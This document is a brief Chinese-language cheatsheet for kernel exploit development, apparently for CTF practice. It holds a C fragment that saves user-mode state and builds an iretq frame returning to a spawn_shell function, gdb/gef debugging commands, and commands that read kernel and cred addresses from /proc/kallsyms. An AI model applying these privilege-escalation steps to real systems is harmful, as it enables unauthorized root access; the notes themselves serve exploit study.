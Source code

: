 ```yaml
---
title: kernel exp cheatsheet
---
```


## EXP 编写

### 保存状态

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

// -static -masm=intel
size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

// 设置 iretq 参数
payload[++i] = (unsigned long)spawn_shell; // userland rip
payload[++i] = user_cs;
payload[++i] = user_rflags;
payload[++i] = user_sp;
payload[++i] = user_ss;
```



## gdb 技巧

### gdbscript

```bash title="gdbscript"
init-gef
gef-remote localhost 1234
pi reset_architecture("X86")
add-symbol-file vmlinux  # 如果开了 KASLR 要设置基址
# add-symbol-file fs/vuln.ko addr
```

### 获取基址

```bash title="qemu-terminal"
lsmod  # 获取 module 基址
grep "_text" | cat /proc/kallsyms  # 获取 kernel 基址
grep "cred" | cat /proc/kallsyms  # 获取 kernel 特定函数地址
```



### 进阶 gef

[bata24/gef: GEF - GDB Enhanced Features for exploit devs & reversers](https://github.com/bata24/gef)

```bash title="gdbscript"
kbase
```



### gadget 技巧

带符号表解压工具：[marin-m/vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf)

vmlinux base: 0xffffffff81000000
